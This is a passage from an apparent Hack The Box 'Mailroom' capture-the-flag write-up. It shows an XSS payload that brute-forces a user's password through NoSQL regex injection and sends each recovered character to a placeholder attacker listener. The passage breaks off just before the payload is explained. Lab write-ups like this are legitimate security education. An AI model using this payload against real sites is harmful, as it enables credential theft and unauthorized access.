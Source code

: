 ![Burp-regex-invalid](/assets/screenshots/htb-mailroom/burp_regex_invalid.png)

Now, unfortunately i spent a lot of time trying to make this work, but i didn't succeed, becasue when i was sending a lot of requests to the web it jsut stopped responding back. Therfore, i decided to choose a different approach, where i would let the XSSS perform the brute force. To explain what i mean by that, will show the payload:
```javascript
const alphabet = '0123456789abcdefghijklmnopqrstuvwxyz';
const brute = async () => { for (var i = 0; i < alphabet.length; i++){
    const currentChar = alphabet[i];
    fetch('http://staff-review-panel.mailroom.htb/auth.php',{method:'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'},body:'email=tristan@mailroom.htb&password[$regex]=^{password}'+ alphabet[i] +'.*'}).
    then( response => response.text()).
    then(json => {
        if (json.includes('2FA')){
            fetch('http://{RECIEVE_IP}:{RECIEVE_PORT}/recieve?password={password}'+currentChar) }})}}
brute();
```
So the above JavaScript works like this:
